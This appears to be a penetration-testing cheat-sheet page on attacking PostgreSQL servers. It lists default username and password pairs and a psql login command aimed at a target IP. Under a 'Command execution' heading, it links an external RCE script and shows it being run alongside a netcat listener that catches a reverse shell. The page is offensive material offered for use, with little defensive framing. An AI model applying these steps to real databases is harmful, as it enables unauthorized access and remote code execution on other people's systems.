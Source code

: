 # ,5437 - Postgres

### Default creds:

<table><thead><tr><th>Username</th><th>Password</th><th data-hidden></th></tr></thead><tbody><tr><td>postgres</td><td>postgres</td><td></td></tr><tr><td>postgres</td><td>password</td><td></td></tr><tr><td>postgres</td><td>admin</td><td></td></tr><tr><td>admin</td><td>admin</td><td></td></tr></tbody></table>

{% code overflow="wrap" %}
```shell
psql -h $targetip -p 5432 -U postgres -W #password: postgres
```
{% endcode %}

### Command execution:

{% embed url="https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py" %}

```
python3 postgresql_rce.py
nc -lvnp 80
```
